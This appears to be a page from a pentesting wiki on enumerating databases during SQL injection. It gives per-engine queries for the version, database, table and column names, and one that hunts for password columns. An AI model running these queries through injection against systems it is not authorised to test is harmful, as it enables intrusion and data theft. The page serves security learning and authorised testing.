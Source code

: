 # Enum Databases

## Theory

When exploiting SQL injection vulnerabilities, or when you gain access to the database itself, it is often necessary to gather some information about the database itself. This includes the type and version of the database software, and the contents of the database in terms of which tables and columns it contains.

## Practice

{% hint style="info" %}
All queries on this page can be used with different techniques as UNION or Blind based attacks
{% endhint %}

### Database version

Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.\
The queries to determine the database version for some popular database types are as follows:

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT @@version 
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT @@version 
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT banner FROM v$version
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT version() 
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT sqlite_version();
```
{% endtab %}
{% endtabs %}

### Database Names

When performing SQL injections, it can be useful to know the names of the databases that are present on the targeted server. Enumerating the database names allows you to identify which databases are available and potentially gain insight into the server's configuration and architecture. This information can be used to craft more targeted and effective SQL injection attacks.

{% tabs %}
{% tab title="MySQL" %}
We can enum the current database with the following query:

```sql
SELECT database();
```

We can list all databases with the following query:

```sql
SELECT schema_name FROM information_schema.schemata;
```
{% endtab %}

{% tab title="MSSQL" %}
We can enum the current database with the following query:

```sql
SELECT DB_NAME();
```

We can list all databases with the following queries:

```sql
SELECT name FROM master..sysdatabases;
/*or*/
SELECT DB_NAME(N); — for N = 0, 1, 2, …
```
{% endtab %}

{% tab title="OracleSQL" %}
We can enum the current database with the following queries:

```sql
SELECT global_name FROM global_name;
SELECT name FROM V$DATABASE;
SELECT instance_name FROM V$INSTANCE;
SELECT SYS.DATABASE_NAME FROM DUAL;
```

We can list all databases with the following query:

```sql
SELECT DISTINCT owner FROM all_tables;
```
{% endtab %}

{% tab title="PostgreSQL" %}
We can enum the current database with the following query:

```sql
SELECT current_database();
```

We can list all databases with the following query:

```sql
SELECT datname FROM pg_database;
```
{% endtab %}

{% tab title="SQLite" %}
We can extract current database structure with the following query:

```sql
SELECT sql FROM sqlite_schema;
```

We can list all databases with the following query:

```sql
PRAGMA database_list;
SELECT name FROM pragma_database_list;
```
{% endtab %}
{% endtabs %}

### Tables Names

The next step in performing SQL injections is to enumerate the tables that are present within each database. Enumerating the table names can provide valuable information about the structure and content of the databases.

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE();
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for views
SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_catalog = DB_NAME();
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT table_name FROM all_tables;

SELECT table_name FROM all_tables WHERE owner = USER;
SELECT table_name FROM all_tables WHERE owner = SYS_CONTEXT('USERENV', 'CURRENT_SCHEMA');

SELECT owner, table_name FROM all_tables;
SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE '%PASS%';
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_schema = current_schema();
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';
```
{% endtab %}
{% endtabs %}

### Columns Names

Next step is to enumerate columns within tables.It's a crucial step in the process of exploiting a SQL injection vulnerability.

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT column_name FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT column_name FROM information_schema.columns WHERE table_name='TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name';
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}
